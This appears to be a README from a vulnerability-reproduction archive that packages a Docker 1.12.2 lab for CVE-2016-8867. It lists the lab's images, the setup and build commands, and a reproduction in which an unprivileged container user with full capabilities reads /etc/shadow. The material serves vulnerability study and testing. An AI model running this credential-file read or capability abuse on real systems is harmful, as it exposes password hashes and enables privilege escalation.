 # docker v1.12.2

* dqd:
  * ssst0n3/docker_archive:cve-2016-8867 -> ssst0n3/docker_archive:cve-2016-8867_v0.1.0
  * ssst0n3/docker_archive:cve-2016-8867_v0.1.0
* ctr:
  * ssst0n3/docker_archive:ctr_cve-2016-8867 -> ssst0n3/docker_archive:ctr_cve-2016-8867_v0.1.0
  * ssst0n3/docker_archive:ctr_cve-2016-8867_v0.1.0

## usage

```shell
$ cd vul/cve-2016-8867
$ docker compose -f docker-compose.yml -f docker-compose.kvm.yml up -d
$ ./ssh
```

### reproduce

```shell
root@localhost:~# docker run -ti -u nobody ubuntu:16.04 bash
nobody@50b080908617:/$ cat /proc/self/status | grep Cap 
CapInh:	00000000a80425fb
CapPrm:	00000000a80425fb
CapEff:	00000000a80425fb
CapBnd:	00000000a80425fb
CapAmb:	00000000a80425fb
nobody@50b080908617:/$ ls -lah /etc/shadow 
-rw-r----- 1 root shadow 652 Aug  4  2021 /etc/shadow
nobody@50b080908617:/$ cat /etc/shadow 
root:*:18843:0:99999:7:::
daemon:*:18843:0:99999:7:::
bin:*:18843:0:99999:7:::
sys:*:18843:0:99999:7:::
sync:*:18843:0:99999:7:::
games:*:18843:0:99999:7:::
man:*:18843:0:99999:7:::
lp:*:18843:0:99999:7:::
mail:*:18843:0:99999:7:::
news:*:18843:0:99999:7:::
uucp:*:18843:0:99999:7:::
proxy:*:18843:0:99999:7:::
www-data:*:18843:0:99999:7:::
backup:*:18843:0:99999:7:::
list:*:18843:0:99999:7:::
irc:*:18843:0:99999:7:::
gnats:*:18843:0:99999:7:::
nobody:*:18843:0:99999:7:::
systemd-timesync:*:18843:0:99999:7:::
systemd-network:*:18843:0:99999:7:::
systemd-resolve:*:18843:0:99999:7:::
systemd-bus-proxy:*:18843:0:99999:7:::
_apt:*:18843:0:99999:7:::
```


### env details

```shell
root@localhost:~# docker --version
Docker version 1.12.2, build bb80604
root@localhost:~# docker-containerd --version
containerd version 0.2.4 commit: 0366d7e9693c930cf18c0f50cc16acec064e96c5
root@localhost:~# docker-runc --version
runc version 1.0.0-rc2
commit: 02f8fa7863dd3f82909a73e2061897828460d52f
spec: 1.0.0-rc2-dev
root@localhost:~# docker info
Containers: 0
 Running: 0
 Paused: 0
 Stopped: 0
Images: 0
Server Version: 1.12.2
Storage Driver: aufs
 Root Dir: /var/lib/docker/aufs
 Backing Filesystem: extfs
 Dirs: 0
 Dirperm1 Supported: true
Logging Driver: json-file
Cgroup Driver: cgroupfs
Plugins:
 Volume: local
 Network: null host bridge overlay
Swarm: inactive
Runtimes: runc
Default Runtime: runc
Security Options: apparmor seccomp
Kernel Version: 4.4.0-210-generic
Operating System: Ubuntu 16.04.7 LTS
OSType: linux
Architecture: x86_64
CPUs: 2
Total Memory: 1.953 GiB
Name: localhost.localdomain
ID: ED3X:JKLF:3XAQ:UM7L:Q54N:KZUU:7F27:GEFO:BWSN:ZUON:JQRU:V4J4
Docker Root Dir: /var/lib/docker
Debug Mode (client): false
Debug Mode (server): false
Registry: https://index.docker.io/v1/
WARNING: No swap limit support
Insecure Registries:
 127.0.0.0/8
```

## build

```shell
make all DIR=vul/cve-2016-8867
```

for developers:

```dockerfile
FROM ssst0n3/docker_archive:ctr_cve-2016-8867_v0.1.0
```
